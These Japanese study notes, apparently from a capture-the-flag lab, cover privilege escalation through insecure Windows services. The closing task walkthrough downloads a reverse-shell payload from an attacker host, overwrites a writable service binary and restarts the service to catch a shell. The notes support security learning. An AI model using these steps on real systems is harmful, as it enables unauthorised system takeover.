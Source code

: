 - サービスの確認方法。

```cmd
sc qc <service_name>
```

| sc qc の出力結果の見方     | 説明     |
| --- | --- |
| BINARY_PATH_NAME    | 関連する実行可能ファイル     |
| SERVIE＿START_NAME    | サービス実行に使用されるアカウント     |

- サービス構成の保存場所（レジストリ）。

```cmd
HKLM\SYSTEM\CurrentContorolSet\Services\
```

- サービスの随意アクセス制御リスト（DACL）の確認方法。  
  [Process Hacker](https://processhacker.sourceforge.io/) で確認できる。

### 安全でないWindwosサービス

- サービスに関連付けられた実行可能ファイルのアクセス権が不適切。  
　icaclsでアクセス権を確認するとEveryoneに対して変更権限(M)があるなど。  
- 引用符で囲まれていないサービスパス。  
  サービスパスに空白を含む場合、プログラムと引数の区切りが曖昧になる。  
  例）C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exeの場合、以下の順で処理を試みる。

| コマンド     | 引数1     | 引数2     |
| --- | --- | --- |
| C:\MyProgram\Disk.exe | Sorter| Enterprise/bin/disksrs.exe|
| C:\MyProgram\Disk Sorter.exe| Enterprise/bin/disksrs.exe ||
| C:\MyProgram\Disk Sorter Enterprise\bin\disksrs.exe|| |

- サービスDACL（サービスの実行可能DACLではない）でサービスの構成を変更できる場合。  
  サービスDACLの確認には、SysinternalsのAccesschkを使用できる。

### タスク5の質問と解答

1. 以下のとおり確認。
  
- ターゲットマシンで実行。

```cmd
sc query WindowsScheduler    # BINARY_PATH_NAMEのプログラムを確認。
icacls c:\Program Files (x86)\SystemScheduler\WService.exe  # Everyoneに変更権限(M)がある

# 攻撃マシン側でペイロードを作成しダウンロードできる状態にしてから次の行を実施
powershell
PS> wget http://10.x.x.x:8000/rev-svc.exe -O rev-svc.exe
PS> exit

# ダウンロードした実行可能ファイルを、サービスプログラムに上書きする
move rev-svc.exe c:\Program Files (x86)\SystemScheduler\WService.exe

# 攻撃マシンのncで待け状態にしてからサービスを再起動
sc stop WindowsScheduler
sc start WindowsSchedulert
```
